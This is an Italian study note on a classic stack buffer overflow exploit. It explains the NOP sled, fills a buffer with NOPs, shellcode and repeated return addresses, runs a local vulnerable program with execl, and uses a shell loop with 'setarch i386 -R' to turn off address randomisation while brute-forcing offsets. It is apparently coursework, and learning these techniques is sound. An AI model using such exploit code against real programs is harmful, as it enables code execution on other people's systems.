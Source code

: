 
![[Recording 20250518205505.m4a]]

![[Recording 20250518205647.m4a]]



### Invece di puntare **esattamente all’inizio della shellcode**, puntiamo **a un punto qualsiasi dentro la NOP sled**.  
- Il processore comincerà a eseguire `NOP`, `NOP`, `NOP`… fino a quando **arriverà alla shellcode** e la eseguirà.


7. **Circa a metà del buffer copio la shellcode**
```c
/* insert shellcode in the middle */
	ptr = buffer + ((BUFFERSIZE/2) - (strlen(lunixshell)/2));
	for(i=0; i<strlen(lunixshell); i++)
		*(ptr++) = lunixshell[i];
```
Prende un puntatore che punta a UN PO' MENO della metà del buffer e da quel puntatore scrivo la mia `linuxshell`
una `nop` è lunga 1byte.

**BUFFER**
`nop|nop|nop|shellcode|indirizzodiritorno|indirizzodiritono|indirizzodiritorno `

Ripeto l'indirizzo di ritorno tante volte perché spero che una di queste copie vada a sovrascrivere l'IP salvato sullo stack. Spero che una vada a sovrascriverlo. 

L'idea è che, le `nop` fanno slittare l'IP di 1 fino ad arrivare a puntare all'indirizzo della `shellcode`.


8. **Ora che il buffer è pronto invoco `execl`**

```c
/* call the vulnerable program passing our exploit buffer as the argument */
	buffer[BUFFERSIZE-1] = 0;
	execl("./vulnerable", "vulnerable", buffer, 0);
```

Il SO esegue il programma vulnerabile e ci passa il buffer.

**Dobbiamo mandare in esecuzione il programma `exploit.c` compilato passandogli l'offest come parametro**

```shell
for i in `seq 200 400`; do setarch i386 -R ./exploit $1; done
```

Itero su 200 fino a 400 e manderò in esecuzione 200 volte il mio exploit.

**`-R ./exploit $i`** : serve per fare in modo che **il SO allochi vulnerable su un'area di memoria contigua a exploit**

Se non mettiamo questo flag, il SO mitiga questi problemi, alloca le aree in modo casuale.

se quella non va, metti questo
```c
for i in `seq 1 1000` ; do setarch i386 -R ./exploit $i; done
```

